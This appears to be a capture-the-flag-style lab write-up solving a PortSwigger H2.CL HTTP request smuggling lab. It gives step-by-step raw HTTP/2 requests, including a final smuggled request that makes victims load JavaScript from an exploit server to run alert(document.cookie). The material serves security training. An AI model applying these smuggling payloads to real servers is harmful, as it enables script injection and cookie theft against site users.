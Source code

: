 # H2.CL request smuggling

## This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

## To solve the lab, perform a request smuggling attack that causes the victim's browser to load and execute a malicious JavaScript file from the exploit server, calling `alert(document.cookie)`. The victim user accesses the home page every 10 seconds.

---

step 1
intercept homepage to repeater change get to post request

```
POST / HTTP/2
Host: 0aaf005a04efd238802a044b00a2000b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

userid=test
```

![screenshot](images/images_lab12/lab12_post_request.jpg)

step 2
test payload

```
POST / HTTP/2
Host: 0aaf005a04efd238802a044b00a2000b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

0

GET /resources HTTP/1.1
Host: 0aaf005a04efd238802a044b00a2000b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

userid=test
```

![screenshot](images/images_lab12/lab12_test_resource.jpg)

step 3
add payload into resource

![screenshot](images/images_lab12/lab12_test_expolit_page.jpg)

step 4
test payload from resource

```
GET /resources HTTP/2
Host: exploit-0ae5004d04bfd27b80b403cd018000b8.exploit-server.net
Content-Length: 2

```

![screenshot](images/images_lab12/lab12_test_alert_payload.jpg)

step 5
final payload

```
POST / HTTP/2
Host: 0aaf005a04efd238802a044b00a2000b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

0

GET /resources HTTP/1.1
Host: exploit-0ae5004d04bfd27b80b403cd018000b8.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

userid=test
```

![screenshot](images/images_lab12/lab12_test_final_payload.jpg)

![screenshot](images/images_lab12/lab12_solved_lab.jpg)
